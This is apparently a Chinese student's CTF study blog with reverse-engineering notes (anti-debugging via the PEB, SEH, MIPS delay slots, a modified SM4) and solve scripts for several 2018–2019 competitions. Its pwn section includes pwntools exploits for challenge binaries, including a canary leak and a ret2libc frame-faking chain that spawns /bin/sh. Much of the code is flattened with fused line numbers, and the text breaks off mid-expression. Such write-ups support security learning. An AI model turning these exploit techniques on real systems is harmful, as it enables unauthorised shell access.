如何荒废一暑假23333
pwn出题 gcc -m32 hello.c 指定32位
花指令 简单的花就那样还是挺好分辨的
smc 用VirtualProtect(addr,size,PAGE_READWRITE,lpflOldProtect)修改代码段权限
反跟踪 IsDebuggerpresent 通过读取PEB中的BeingDebugged标志来判断是否在调试
1 2 3 4 5 __asm__( "mov eax, fs:[0x30];" "movzx eax,byte ptr [eax+2];" ); // IsDebuggerpresent内联汇编实现
NtGlobalFlag 与BeingDebugged类似
1 2 3 4 5 __asm__( "mov eax, fs:[0x30];" "mov eax,[eax+0x68];" "and eax,0x70;" )
Heap Magic 这是在x1c面试题中出现的
1 2 3 4 5 6 7 8 9 10 11 #include <stdlib.h> #include <stdio.h> #include <string.h> #include <windows.h> int main(){ int *a a = malloc(0x10 ) printf("%x" ,*a) return 0 }
调试情况下就能看到0xBAADF00D在内存中了

如果这时根据malloc的数生成一个box啥的，在调试中的值和运行中的就会不一样
很恶心啊
ISCC_2019 RE 简单的xor
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 flag = ''flag += chr(401978124 ^0 x17 F5 B345 )flag += chr(0 xF16 B77 E2 ^4050352049 )flag += chr(2998016260 ^ 0 xB2 B21947 )flag += chr(1487534536 ^ 0 x58 A9 F98 B)flag += chr(547986801 ^ 0 x20 A99 D0 A)flag += chr(2530761537 ^ 0 x96 D85 B20 )flag += chr(0 xBBEA9 A56 ^ 0 xBBEA9 A3 E)flag += chr(894512607 ^ 0 x35512 DBE)flag += chr(674815144 ^ 0 x2838 DCF7 )flag += chr(1319231476 ^ 0 x4 EA1 DF87 )flag += chr(3794652292 ^ 0 xE22 DCCED)flag += chr(3710674499 ^ 0 xDD2 C662 E)flag += chr(275462068 ^ 0 x106 B37 C4 )flag += chr(1186218498 ^ 0 x46 B4426 E)flag += chr(2858928017 ^ 0 xAA67 C7 F4 )flag += chr(1925213922 ^ 0 x72 C06 EBD)flag += chr(2953936653 ^ 0 xB0117 F7 F)flag += chr(4179334025 ^ 0 xF91 B93 EC)flag += chr(3560761698 ^ 0 xD43 CE914 )flag += chr(4142533768 ^ 0 xF6 EA0 CED)flag += chr(1076496869 ^ 0 x402 A0997 )flag += chr(2913777524 ^ 0 xADACB707 )flag += chr(3885782341 ^ 0 xE79 C5520 )flag += chr(1266072881 ^ 0 x4 B76 BD4 C)print flag
android 题目明显是让你用z3去约束求解的

一个base64
看到这边可能有人要开喷了怎么会有这种题目
没办法，iscc正常操作。
而且装上后发现没有输入框
//估计是本来有输入框，技术支持发现多解后，就把输入框关了
//沙雕题
pwn pwn的高地和私地题目搞反了把。。。
总结一下。。。第一次打国家级的比赛，氛围很。。。差
mips入门 mips64题目大致写法 1.运行
2.调试
2.1
3.断点
还需要注意一下流程图。主要还是定位关键代码
mips32汇编 首先有贼多的寄存器。。。
存储指令集/相对偏移 l s指令就是加载和存储
算术指令集 add $t0,$t1,$t2 # $t0 = $t1 + $t2;
控制流指令集 if else
jump
call
return
mips64 其实没多大变化。。。
具体注意点 movz r1，r2,r3 If(r3==0) r1=r2
标志位 c.lt.d freg,freg set FP flag if less than//在double范围内，如果是float则是c.lt.s，查看fpu可用i fl
slt reg,reg,reg set if less than
跳转 j imm jump to address (不会保存返回地址)
beqz reg,imm branch if register is equal to zero
控制 nop no operation
另外mips64遇到跳转指令时都会使用到分支延迟
1 2 3 4 5 6 .text :0000000120003 C20 loc_120003C20:.text :0000000120003 C20 c.lt .s $fcc6 , $f1 , $f0 .text :0000000120003 C24 bc1f $fcc6 , loc_120003B24.text :0000000120003 C28 ld $t9 , -0 x7F68($gp ).text :0000000120003 C2C ld $a0 , -0 x7F78($gp ).text :0000000120003 C30 ld $a1 , -0 x7F58($gp )
如下面的代码片段，bc1f是跳转指令，满足条件跳转至 loc_120003B24 。无论是否满足跳转条件，都会先执行 ld $t9, -0x7F68($gp) 那条指令，再跳到 loc_120003B24 或者 ld $a0, -0x7F78($gp) 。gdb断点只能下到 0x120003C24 或 0x120003C2C，无法下到0x120003C28。
pwn_learning stack_smash 有canary情况下可以使用
1 2 3 4 5 6 7 8 9 10 11 void __attribute__ ((noreturn)) __stack_chk_fail (void) { __fortify_fail ("stack smashing detected" ); } void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg) { while (1 ) __libc_message (2 , "*** %s ***: %s terminated\n" , msg, __libc_argv [0 ] ?: "<unknown>" ); }
主要原理就是覆盖argv[0]为你想读出的地址
partial overwrite 例题是安恒杯月赛的babypie

可以看到输入40个a后
canary结尾处是0
我们可以输入41个覆盖0
这样就能把canary打出
1 2 3 4 5 6 7 8 9 10 from pwn import *a = process ("./babypie" )pay = 'a' *41 a .recvuntil("Name:" )a .send (pay)a .recvuntil(pay)canary = '\0' + a .recv(7 ) pay2 = 'a' *40 + canary + 'bbbbbbbb' + chr(0x3e ) a .send (pay2)a .interactive()
frame faking 看着头疼的东西
例题 安恒杯的over
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 from pwn import *p_r = 0 x400793 elf = ELF("./over" )libc = elf.libca = process("./over" )pay = 'a'*80 a .recvuntil(">" )a .send(pay)a .recvuntil('a'*80 )fake = u64 (a.recvuntil("\x7f" )[-6 : ].ljust(8 , '\0 ')) - 0 x70 a .recvuntil(">" )pay = '11111111 ' + p64 (p_r) + p64 (elf.got['puts']) + p64 (elf.symbols['puts']) + p64 (0 x400676 )pay += 'a'*(0 x50 -len(pay))pay += p64 (fake)pay += p64 (0 x4006 BE)a .send(pay)print 'dividing line'base = u64 (a.recvuntil("\x7f" )[-6 : ].ljust(8 , '\0 ')) - libc.sym['puts']sys = libc.symbols['execve'] + basesh = libc.search('/bin/sh').next() + basep_p_r = 0 x1150 c9 + basepay2 = '22222222 'pay2 += p64 (p_r) + p64 (sh)pay2 += p64 (p_p_r) + p64 (0 ) + p64 (0 )pay2 += p64 (sys)pay2 += 'b'*(80 -len(pay2 ))pay2 += p64 (fake-0 x30 )pay2 += p64 (0 x4006 BE)a .recvuntil(">" )print '****************'print hex(fake)print '****************'print hex(base)a .send(pay2 )a .interactive()
这题配合了ret2libc
信安数基学习 信安数基这玩意其实感觉特别重要啊
整除&性质 简记b|a为b整除aa+t b
素数与厄拉托塞师筛法 前面这一部分都不怎么难。。。简单讲讲
欧几里得除法&素数平凡判别 定理：对于a,b俩个整数，其中b大于0，则存在唯一的整数q,r使得 a = q*b + r, (0 <= r < b)
最大公因数&广义欧几里得除法 大部分都学过b + c 有(a,b) = (b,c) b + rr + r1 r1
贝祖等式 sa + t b = (a,b)
最大公因数的进一步性质 大致就是涉及到多个整数最大公因数计算
整数的进一步性质和最小公倍数 任意整数都可以化为若干素数的乘积
同余 同余和取模有关啦
VM逆向 以前vm一直是用angr啥的骚操作来解决的
RCTF 2018 很带劲啊这题

可以看到case 0xb就是putchar
录入flag就是在case 0xa那边了，因为用的是getchar所以调试一波可以发现输入的flag长度
应该为32
然后程序对它进行了异或操作。。。
这边的异或实现形式有点奇葩
c = ~(a&b)
temp1 = ~(c&a)
temp2 = ~(c&b)
a^b = ~(temp1&temp2)
没错就是这样的。。。
至于这是xor证明起来也不难
直接枚举一下//一开始我也没有想到这个方法，听室友说的
然后会有个验证，验证就是个if分支判断

如果输入是错的直接就putchar wrong
1 2 3 4 5 a = [9 ,0 x58,0 xc,0 xa,0 x5f,0 x58,8 ,0 x5a,0x56,0x5 ,0x53,0x51 ,0 x57,1,0x54 ,0x53,0x18 ,0x48,0x49 ,0 x1f,0 x12,0 x4b,0 x1d,0x10,0x17 ,0x40,0x47 ,0x15,0x14 ,0x43,0x18 ,0 x10] flag = '' for i in range(len(a)): flag += chr(a[len(a)-1 -i]^(0 x20+i)) print flag
最后的脚本。。。
De1CTF 2019 Re_Sign UPX加壳
1 2 3 4 5 6 7 8 9 10 a = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789' b = '0123456789QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm' c = 'H6AfGzIeXjSCP3IaHzSBHhRCEFRCOhRWHAohFjxjOeqjCU' flag = '' for i in range (len (c)): for j in range (len (a)): if c[i] == b[j]: flag += a[j] break print flag
解一下base64即可
Cplusplus hint里面有md5很明显这又是一道多解题

判断是否大于111大于就gg
然后下面是根据输入的一个判断
因为懒。。。这边我直接爆破
也就111次，最后发现应该输入为78
多解就出现在这边。。。可以输入078，78，0078啥的
然后就是下面的check，很简单就是比较下标而已

这边的反调试被我patch掉了
第二段数字应该是20637
然后就是第三段
if ( WORD2(v51) % (unsigned int)(unsigned __int16)v51 != 12 && WORD2(v51) / (unsigned int)(unsigned __int16)v51 != 3 )
这边就是第三段的check
z3写一下完事
发现应该是114
所以flag
de1ctf{78@20637#114}
Evil_boost 沙雕题
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 import hashlibimport stringdef crackMd5 (dst ): dst = dst.lower() for a in range (0 ,10 ): for b in range (0 ,10 ): for c in range (0 ,10 ): for d in range (0 ,10 ): for e in range (0 ,10 ): word = 'de1ctf{' + str (a) + 'e' + str (b) + '*(' + str (c) + '-' + str (d) + '/' + str (e) + ')}' tmp = hashlib.md5(word).hexdigest() if dst == tmp: return word return None if __name__ == "__main__" : raw_input(crackMd5("293316bfd246fa84e566d7999df88e79" ))
最后还是靠着爆破写出来的
Signal vm 学长写的，写完后复现了发我
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 # -*- coding: UTF-8 -*- from z3 import * a = [65 , 108 , 109 , 111 , 115 , 116 , 32 , 104 , 101 , 97 , 118 , 101 , 110 , 32 , 119 , 101 , 115 , 116 , 32 , 118 , 105 , 114 , 103 , 105 , 110 , 105 , 97 , 44 , 32 , 98 , 108 , 117 , 101 , 32 , 114 , 105 , 100 , 103 , 101 , 32 , 109 , 111 , 117 , 110 , 116 , 97 , 105 , 110 , 115 , 0 ] b = [0xD6 , 0x4D , 0x2D , 0x85 , 0x77 , 0x97 , 0x60 , 0x62 , 0x2B , 0x88 , 0x86 , 0xCA , 0x72 , 0x97 , 0xEB , 0x89 , 0x98 , 0xF3 , 0x78 , 0x26 , 0x83 , 0x29 , 0x5E , 0x27 , 0x43 , 0xFB , 0xB8 , 0x17 , 0x7C , 0xCE , 0x3A , 0x73 , 0xCF , 0xFB , 0xC7 , 0x9C , 0x60 , 0xAF , 0x9C , 0xC8 , 0x75 , 0xCD , 0x37 , 0x7B , 0x3B , 0x9B , 0x4E , 0xC3 , 0xDA , 0xD8 , 0xCE , 0x71 , 0x2B , 0x30 , 0x68 , 0x46 , 0x0B , 0xFF , 0x3C , 0xF1 , 0xF1 , 0x45 , 0xC4 , 0xD0 , 0xC4 , 0xFF , 0x51 , 0xF1 , 0x88 , 0x51 ] s = Solver() key = [BitVec('u%d' %i,8 ) for i in range(70 )] for i in range(10 ): for j in range(7 ): s. add (b[i*7 +j] == key[i*7 ]*a[j]+key[i*7 +1 ]*a[7 *1 +j]+key[i*7 +2 ]*a[7 *2 +j]+key[i*7 +3 ]*a[7 *3 +j]+key[i*7 +4 ]*a[7 *4 +j]+key[i*7 +5 ]*a[7 *5 +j]+key[i*7 +6 ]*a[7 *6 +j]) flag = '' if s.check() == sat: result = s.model() for i in range(70): flag += chr(result[key[i]].as_long().real) print flag
sctf 2019 sctf因为在考试周所以没打。。。
crackme 这题当时没写出来是吧关键的函数给直接patch了。。。

前俩个函数，涉及了最后匹配的密文修改，我以为是反调试直接给patch了
然后gg

后面就是一个aes cbc模式直接解密就完事了
这边学习一波seh异常处理
debugbreak没有在调试下的话会抛出异常，然后seh跳过去
如果在调试状态下的话就会继续运行。。。
//类似反调试了

跳过去后就是一些smc操作
nKnbHsgqD3aNEB91jB3gEzAr+IklQwT1bSs3+bXpeuo=
aes解得
sctf{Ae3_C8c_I28_pKcs79ad4}
babyre 我佛了

第一个问题是maze，输入sxss直接完事了。。。
后来看了wp发现居然不一样，十分蒙蔽。。。
//说到底还是tcl，没看出来这是立体迷宫
//但是后来又想了想还是觉得这迷宫出的有点hape
然后就是一个base64解码操作，函数也有花轻松去

可以看到很明显的解码操作
直接把比较字符串加密就ok了
c2N0Zl85MTAy
然后最后也是我最烦的加密算法
看了wp发现是魔改sm4
当时看出来是sm4了，国赛的sm4我直接把密钥倒着输出的答案
//国赛那个后来知道是sm4，再看看这题的算法和国赛的是分相似，所以可以推断sm4
但是这个魔改的只看到一个box。。。瞬间懵逼。。。
//其实就是太懒了没仔细看，仔细看马上就知道怎么写
看了wp才写出来的
fl4g_is_s0_ug1y!
学习总结 这边主要总结一下俩个
前置知识 TEB(Thread Environment Block，线程环境块) 先了解一下前置只是tep线程管理
offset为0
ProcessEnvironmentBlock 指向的是PEB，在程序中常见的ptr fs:[0x30]也就是拿到了PEB的地址，因为现在的windows已经有了地址随机化的功能，所以基本上都是用这种方式来拿到PEB的
PEB 这个就很熟悉了，毕竟和反调试有点关系
BeingDebugged &&NtGlobalFlag 前面记录过这个
1 2 3 4 IsDebuggerPresent(VOID) { return NtCurrentPeb() -> }
那你可能又会想了，为什么这么简单，如果我们在调试过程中手动修改内存不就可以绕过了吗？
SEH异常处理 首先什么是异常？
硬件异常 硬件异常主要分为三种
fault 在处理此类异常时，操作系统会将遭遇异常时的“现场”保存下来（比如EIP、CS等寄存器的值），然后将调用相应的异常处理函数，如果对异常的处理成功了（没成功的情况会在下文中提到），那就恢复到原始现场，继续执行。最经典的fault例子莫过于Page Fault了，在分页机制下，当我们读到某个还未载入到内存的页时，就会触发该异常，操作系统会将该页载入内存，然后重新执行读取该页的指令，这是分页机制实现的重要机制。
trap 在处理此类异常时，操作系统会将异常的“下文”保存，在处理异常后，直接执行导致异常的指令的下一条指令。我们在调试过程中常用的断点操作就是基于这类异常的，当我们在某处下断点时调试器会将原本此处的指令对应的十六进制保存下来，然后替换第一个字节替换为0xCC的，也就是int 3，造成断点异常，中断（此处的中断用的是break，而我们一般说的中断是interrupt，请读者务必区分清楚）到调试器，程序在运行到此处就会停止等待下一步的指令，而当我们继续执行时调试器就会将该指令替换为原来的指令，程序也就恢复正常执行了。不知道大家有没有注意过，在进行程序调试时经常会看见hex界面显示大量的“烫烫烫”，这其实是0xcc对应的中文字符，因为这些地址的内容程序并不想让我们访问，一旦我们访问这些地址，就会读到0xcc，程序也就“中断”了。
abort 中止异常，主要是处理严重的硬件错误等，这类异常不会恢复执行，会强制性退出。
软件异常 软件异常是由操作系统或应用程序产生的，它又包含了windows为我们定义好的异常处理和我们自己写的异常处理（各种编程语言中的try-catch结构）。
异常的的分发处理 USER 内核态的就略过了，因为一般ctf钟都是与user相关
SEH 。。。。。。
1 2 3 nt!_TEB +0 x000 NtTib : _NT_TIB +0 x01c EnvironmentPointer : Ptr32 Void
下面是TIB结构
1 2 3 4 5 6 7 8 9 10 11 12 13 typedef struct _NT_TIB { 00 h struct _EXCEPTION_REGISTRATION 04 h PVOID StackBase; 08 h PVOID StackLimit; 0 ch PVOID SubSystemTib; union { PVOID FiberData; 10 h DWORD Version; }; 14 h PVOID ArbitraryUserPointer; 18 h struct _NT_TIB Self ; }NT_TIB;
所以流程图一般是这样的
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 +---------+ +----------------+ +---------------+ | 发生异常 +--->+ TIB +----->+ Next +--+ | | | fs:[0] | +---------------+ | +------------------+ +---------+ +----------------+ | Handler +-------------->+ 异常处理函数 | +---------------+ | | ... | | | retn | +----------+ +------------------+ | +-------v-------+ | Next +--+ +---------------+ | +------------------+ | Handler +-------------->+ 异常处理函数 | +---------------+ | | ... | | | retn | +----------+ +------------------+ | +-------v-------+ | FFFFFFh | +---------------+ +------------------+ | Handler +-------------->+ 异常处理函数 | +---------------+ | ... | | retn | +------------------+
next是下一个链的地址。如果next的值是FFFFFFh,表示是链表的最后一个节点，该节点的回调函数是系统设置的一个终结处理函数，所有无人值守的异常都会到达这里。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 #include <Windows.h> #include <iostream> int exception_memory_access_violation (LPEXCEPTION_POINTERS p_exinfo) if (p_exinfo->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION) { return EXCEPTION_EXECUTE_HANDLER; } else return EXCEPTION_CONTINUE_SEARCH; } int main () char * mem = 0 ; std ::cout << "Hello World!\n" ; __try { *mem = 0 ; } __except (exception_memory_access_violation(GetExceptionInformation())) { puts ("Memory error in except" ); } }
逆向分析

果然ida没反编译出来。。。
ida貌似不能反编译try catch这种异常处理
但是看汇编流程图还是能看到

函数一开始就把seh结构体push进去了
在结构体那边的地址断点就ok了
//具体是怎么样还不是很清楚。。。
//这个坑以后再好好填
//第一次遇到，下次写题一定要认出来啊
魔改sm4 这个魔改的其实写起来特别简单
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 #define ROL (x, r) (((x) << (r)) | ((x) >> (32 - (r)))) #define ROR (x, r) (((x) >> (r)) | ((x) << (32 - (r)))) unsigned char v3[288 ]={0x0D6 , 0x90 , 0x0E9 , 0x0FE , 0x0CC , 0x0E1 , 0x3D , 0x0B7 , 0x16 , 0x0B6 , 0x14 , 0x0C2 , 0x28 , 0x0FB , 0x2C , 0x5 , 0x2B , 0x67 , 0x9A , 0x76 , 0x2A , 0x0BE , 0x4 , 0x0C3 , 0x0AA , 0x44 , 0x13 , 0x26 , 0x49 , 0x86 , 0x6 , 0x99 , 0x9C , 0x42 , 0x50 , 0x0F4 , 0x91 , 0x0EF , 0x98 , 0x7A , 0x33 , 0x54 , 0x0B , 0x43 , 0x0ED , 0x0CF , 0x0AC , 0x62 , 0x0E4 , 0x0B3 , 0x1C , 0x0A9 , 0x0C9 , 0x8 , 0x0E8 , 0x95 , 0x80 , 0x0DF , 0x94 , 0x0FA , 0x75 , 0x8F , 0x3F , 0x0A6 , 0x47 , 0x7 , 0x0A7 , 0x0FC , 0x0F3 , 0x73 , 0x17 , 0x0BA , 0x83 , 0x59 , 0x3C , 0x19 , 0x0E6 , 0x85 , 0x4F , 0x0A8 , 0x68 , 0x6B , 0x81 , 0x0B2 , 0x71 , 0x64 , 0x0DA , 0x8B , 0x0F8 , 0x0EB , 0x0F , 0x4B , 0x70 , 0x56 , 0x9D , 0x35 , 0x1E , 0x24 , 0x0E , 0x5E , 0x63 , 0x58 , 0x0D1 , 0x0A2 , 0x25 , 0x22 , 0x7C , 0x3B , 0x1 , 0x21 , 0x78 , 0x87 , 0x0D4 , 0x0 , 0x46 , 0x57 , 0x9F , 0x0D3 , 0x27 , 0x52 , 0x4C , 0x36 , 0x2 , 0x0E7 , 0x0A0 , 0x0C4 , 0x0C8 , 0x9E , 0x0EA , 0x0BF , 0x8A , 0x0D2 , 0x40 , 0x0C7 , 0x38 , 0x0B5 , 0x0A3 , 0x0F7 , 0x0F2 , 0x0CE , 0x0F9 , 0x61 , 0x15 , 0x0A1 , 0x0E0 , 0x0AE , 0x5D , 0x0A4 , 0x9B , 0x34 , 0x1A , 0x55 , 0x0AD , 0x93 , 0x32 , 0x30 , 0x0F5 , 0x8C , 0x0B1 , 0x0E3 , 0x1D , 0x0F6 , 0x0E2 , 0x2E , 0x82 , 0x66 , 0x0CA , 0x60 , 0x0C0 , 0x29 , 0x23 , 0x0AB , 0x0D , 0x53 , 0x4E , 0x6F , 0x0D5 , 0x0DB , 0x37 , 0x45 , 0x0DE , 0x0FD , 0x8E , 0x2F , 0x3 , 0x0FF , 0x6A , 0x72 , 0x6D , 0x6C , 0x5B , 0x51 , 0x8D , 0x1B , 0x0AF , 0x92 , 0x0BB , 0x0DD , 0x0BC , 0x7F , 0x11 , 0x0D9 , 0x5C , 0x41 , 0x1F , 0x10 , 0x5A , 0x0D8 , 0x0A , 0x0C1 , 0x31 , 0x88 , 0x0A5 , 0x0CD , 0x7B , 0x0BD , 0x2D , 0x74 , 0x0D0 , 0x12 , 0x0B8 , 0x0E5 , 0x0B4 , 0x0B0 , 0x89 , 0x69 , 0x97 , 0x4A , 0x0C , 0x96 , 0x77 , 0x7E , 0x65 , 0x0B9 , 0x0F1 , 0x9 , 0x0C5 , 0x6E , 0x0C6 , 0x84 , 0x18 , 0x0F0 , 0x7D , 0x0EC , 0x3A , 0x0DC , 0x4D , 0x20 , 0x79 , 0x0EE , 0x5F , 0x3E , 0x0D7 , 0x0CB , 0x39 , 0x48 , 0x0C6 , 0x0BA , 0x0B1 , 0x0A3 , 0x50 , 0x33 , 0x0AA , 0x56 , 0x97 , 0x91 , 0x7D , 0x67 , 0x0DC , 0x22 , 0x70 , 0x0B2 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 , 0x0 } __int64 __fastcall sub_564F32EDB464(unsigned int a1) { unsigned int v1 v1 = (v3[(BYTE2(a1))&0xff ] << 16 ) | v3[a1&0xff ] | (v3[(BYTE1(a1))&0xff ] << 8 ) | (v3[(a1 >> 24 )&0xff ] << 24 ) return ROL (v1,12 )^ROL (v1,8 )^ROR (v1,2 )^ROR (v1,6 ) } __int64 __fastcall sub_564F32EDB43B(int a1, int a2, int a3, unsigned int a4) { return a1 ^ (unsigned int )sub_564F32EDB464(a2 ^ a3 ^ a4) } int main(){ unsigned int tmp[30 ] = {0 } unsigned int cipher[4 ] = {0xBE040680 , 0xC5AF7647 , 0x9FCC401F , 0xD8BF92EF } memcpy(tmp+26 ,cipher,16 ) int i for(i=25 { tmp[i] = sub_564F32EDB43B(tmp[i+4 ],tmp[i+1 ],tmp[i+2 ],tmp[i+3 ]) } printf("%s" ,tmp) return 0 }
需要注意的是v1为unsigned int
SUCTF 这次suctf ak了re 俩个三血，还是挺满足的，同时也学到了许多新东西
SignIn 猜。。。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import gmpy2 p1 = 282164587459512124844245113950593348271 #模数p2 = 366669102002966856876605669837014229419 n = 103461035900816914121390101299049044413950405173712170434161686539878160984549 #ne = 65537 #ephi_n = (p1 - 1 ) * (p2 - 1 )d = gmpy2 .invert(e, phi_n)print hex(d)c = 0 xad939 ff59 f6 e70 bcbfad406 f2494993757 eee98 b91 bc244184 a377520 d06 fc35 #密文m = pow(c, d, n)print hex(m)[2 :].decode("hex" )#hex(m)[2 :len(hex(m))-1 ].decode('hex')
suctf{Pwn_@_hundred_years}
hardCPP 刚看到懵逼了以为是ollvm

可以发现前面有time反调试，很明显俩边相减要是0，后面还用相减结果与输入xor
更说明了这一点
可以直接把sub esi, [rbp-28]改成xor esi, esi
然后是判断长度是否满足
最终判断逻辑就是(a[i+1] + (a[i]%7))^((a[i]^18)*3+2)

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 from z3 import *b = [0xF3 , 0x2E , 0x18 , 0x36 , 0xE1 , 0x4C , 0x22 , 0xD1 , 0xF9 , 0x8C , 0x40 , 0x76 , 0xF4 , 0x0E , 0x00 , 0x05 , 0xA3 , 0x90 , 0x0E , 0xA5 ] s = Solver() a = [BitVec('u%d' %i,8 ) for i in range(21 )]for i in range(len (a )): s.add (a [i]>=32 ) s.add (a [i]<=125 ) for i in range(len (b)): s.add (b[i] == (a [i+1 ] + (a [i]%7 ))^((a [i]^18 )*3 +2 )) flag = '' print s.check() if s.check() == sat: result = s.model() for i in range(21 ): flag += chr(result [a [i]].as_long().real) print flag
解出来#flag{mY-CurR1ed_Fns}
Akira Homework 这题非常规。。。

可以看到puts,这边的字符串都是加密过的运行时解密输出
主要问题时下面scanf不能跑直接飞
这边选择直接跳过//反调试太猛了怼不动
直接进行下面语句，在内存中修改//变相scanf
然后发现输入前18应该为Akira_aut0_ch3ss_!
然后下面有判断
sub_7FF7198E6C10里有个解密
应该是虚函数

里面有个贼大的表，在用输入解密他

后来发现这应该是个pe文件调到后面有判断，这边的解密我强行调试只call一次
应该call三次，看表的交叉引用可以看到
然后利用pe文件的性质，末尾应该全是0
每隔三个解密pe文件，很明显看到明文输入

每隔三个看，可以看到Akira_aut0_ch3ss_!
也可以看到第二次解密传进去的参数应该是啥
这边我强行call三次解密
程序解密完后把exe提取出来
//没办法，反调试太鸡儿猛
放ida静态看exe

就是一个输入比较
其实只要调起来这题肯定很快出
可以发现是aes key应该是Ak1i3aS3cre7K3y
哪能咋办，慢慢猜呗。。。
cbc iv是0
最后猜出来
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 from Crypto.Cipher import AESfrom binascii import b2a_hex, a2b_hexdef add_to_16(text ): if len (text .encode('utf-8' )) % 16 : add = 16 - (len (text .encode('utf-8' )) % 16 ) else : add = 0 text = text + ('/0' * add ) return text .encode('utf-8' ) def encrypt (text ): key = '9999999999999999' .encode('utf-8' ) mode = AES.MODE_CBC iv = b'qqqqqqqqqqqqqqqq' text = add_to_16(text ) cryptos = AES.new (key, mode, iv) cipher_text = cryptos.encrypt (text ) return b2a_hex(cipher_text) def decrypt (text ): key = 'Ak1i3aS3cre7K3y\x00' iv = b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' mode = AES.MODE_CBC cryptos = AES.new (key, mode, iv) plain_text = cryptos.decrypt (a2b_hex(text )) return bytes .decode(plain_text).rstrip('/0' ) if __name__ == '__main__' : dd="94BF7A0CA43550D1C215ECEF9D9AAA56" print decrypt (dd)
flag{Ak1rAWin!}
babyunic 凌晨上题

一开始以为是ida默认的小端，然后感觉不对劲怎么会这么大。。。
本想高斯消元解方程出答案//太多了
直接甩给密码队友1min出数组
跑一下出
1 2 3 4 5 6 7 8 9 10 11 12 13 int main () unsigned char a[] = {154 , 171 , 24 , 161 , 54 , 222 , 172 , 116 , 129 , 18 , 139 , 152 , 127 , 247 , 36 , 124 , 43 , 90 , 97 , 138 , 238 , 95 , 141 , 237 , 26 , 227 , 152 , 154 , 167 , 54 , 141 , 166 , 139 , 66 , 216 , 129 , 94 , 164 , 69 , 188 , 33 , 194 }; int i,j=0 ; for (i=0 ;i<42 ;i++) { a[i]^=i; a[i] = ((a[i]&7 )<<5 )|(a[i]>>3 ); printf ("%c" ,a[i]); } return 0 ; }
SUCTF{Un1c0rn_Engin3_Is_@_P0wer7ul_TO0ls!}
Rev 居然放在最后一题。。。未免tcl

这边俩个check第一个是检查输入是不是按照数据 符号 数据 符号 数据 这样的
下面一个就是第一段数据长度为10
isspace ispunct
这种函数基本可以猜出是在干啥了
代码量是多了点，但配合猜写的还是很快的
现在知道了输入条件下面看check

这边是第一个check
逻辑第一眼看上去有点矛盾又是要长度为10又是要为5
其实前面输入的为1就不算在这边的check长度里
所以前面十个输入是11111suctf
再看看第二个check
其实更简单。。。字母隔2一个输入
输入四个从A开始
所以输入应该是ACEG
第三个输入check就是个z3
输入转为一个整数然后判断
1 2 3 4 5 6 7 8 from z3 import *s = Solver()x = BitVec('x',32 )s .add((1234 * x + 5678 ) / 4396 ^ 2882395322 == 2882386105 )s .add((2334 * x + 9875 ) / 7777 ^ 305358736 == 305396848 )print s.check()print s.model()
[x = 31415926]
suctf学习总结 每次打完比赛来一波总结
Unicorn Engine 先把这个写一波

print UC_ARCH_MIPS
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 from z3 import *flag =[Int('flag%d'%i)for i in range(42 )]s =[-108 ,-200 ,294 ,-216 ,-1008 ,660 ,-866 ,1770 ,220 ,6 ,-244 ,-522 ,-1406 ,-816 ,386 ,990 ,334 ,690 ,-1832 ,372 ,-1370 ,-1580 ,450 ,-1668 ,858 ,326 ,-196 ,-1516 ,462 ,2012 ,-696 ,152 ,2142 ,-592 ,-68 ,878 ,-178 ,-1994 ,1472 ,1710 ,1684 ,34 ]solver =Solver()solver .add(flag[1 ]+flag[2 ]+flag[0 ]-flag[3 ]+flag[4 ]-flag[5 ]-flag[6 ]-flag[7 ]-flag[8 ]+flag[9 ]+flag[10 ]-flag[11 ]+flag[12 ]-flag[13 ]-flag[14 ]+flag[15 ]-flag[16 ]-flag[17 ]+flag[18 ]+flag[19 ]-flag[20 ]+flag[21 ]+flag[22 ]+flag[23 ]+flag[24 ]-flag[25 ]+flag[26 ]-flag[27 ]+flag[28 ]+flag[29 ]-flag[30 ]-flag[31 ]+flag[32 ]-flag[33 ]+flag[34 ]+flag[35 ]-flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]+flag[40 ]+flag[41 ]==s[0 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]-flag[3 ]-flag[4 ]+flag[5 ]-flag[6 ]-flag[7 ]-flag[8 ]-flag[9 ]+flag[10 ]-flag[11 ]+flag[12 ]-flag[13 ]-flag[14 ]+flag[15 ]-flag[16 ]-flag[17 ]+flag[18 ]-flag[19 ]+flag[20 ]+flag[21 ]-flag[22 ]-flag[23 ]-flag[24 ]+flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]-flag[29 ]+flag[30 ]+flag[31 ]+flag[32 ]+flag[33 ]+flag[34 ]+flag[35 ]-flag[36 ]-flag[37 ]-flag[38 ]-flag[39 ]-flag[40 ]+flag[41 ]==s[1 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]-flag[4 ]+flag[5 ]-flag[6 ]-flag[7 ]+flag[8 ]-flag[9 ]-flag[10 ]-flag[11 ]-flag[12 